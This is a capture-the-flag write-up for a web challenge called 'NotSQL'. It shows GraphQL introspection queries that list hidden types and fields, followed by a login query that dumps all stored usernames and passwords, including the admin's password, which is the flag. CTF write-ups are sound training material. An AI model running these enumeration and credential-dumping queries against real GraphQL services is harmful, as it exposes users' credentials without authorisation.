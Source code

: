 ```yaml
---
layout: default
title: NotSQL
---
```


# Webhacking NotSQL Solution

In this challenge we exploit vulnerabilities in `GraphQL`


First we get all of the types: 
```json
{__schema{types{name}}}
```
```json
{
  "data": {
    "__schema": {
      "types": [
        {"name": "Board"},
        {"name": "Int"},
        {"name": "String"},
        {"name": "User_d51e7f78cbb219316e0b7cfe1a64540a"}, // INTERESTING
        {"name": "Query"},
        {"name": "CacheControlScope"},
        {"name": "Upload"},
        {"name": "Boolean"},
        {"name": "__Schema"},
        {"name": "__Type"},
        {"name": "__TypeKind"},
        {"name": "__Field"},
        {"name": "__InputValue"},
        {"name": "__EnumValue"},
        {"name": "__Directive"},
        {"name": "__DirectiveLocation"}
      ]
    }
  }
}
```

next, we want to find the fields of this type:
```json
{__type(name:"User_d51e7f78cbb219316e0b7cfe1a64540a"){fields{name}}}
```

```json
{
  "data": {
    "__type": {
      "fields": [
        {"name": "userid_a7fce99fa52d173843130a9620a787ce"},
        {"name": "passwd_e31db968948082b92e60411dd15a25cd"}
      ]
    }
  }
}
```

Now, we will check what are the available queries.
```json
{__type(name:"Query"){fields{name}}}
```
```json
{
  "data": {
    "__type": {
      "fields": [
        {"name": "view"},
        {"name": "login_51b48f6f7e6947fba0a88a7147d54152"}
      ]
    }
  }
}
```

OK, so there is a query that's called: `login_51b48f6f7e6947fba0a88a7147d54152`, and we know the name of the fields. let's try to give them to the query:
```json
{login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}
```

```json
{
  "data": {
    "login_51b48f6f7e6947fba0a88a7147d54152": [
      {
        "userid_a7fce99fa52d173843130a9620a787ce": "test-user",
        "passwd_e31db968948082b92e60411dd15a25cd": "test-password"
      },
      {
        "userid_a7fce99fa52d173843130a9620a787ce": "admin",
        "passwd_e31db968948082b92e60411dd15a25cd": "FLAG{i_know_how_to_use_graphql}" // <---
      }
    ]
  }
}
```

![FLAG](./images/NotSQL.png)

**Flag:** ***`FLAG{i_know_how_to_use_graphql}`*** 

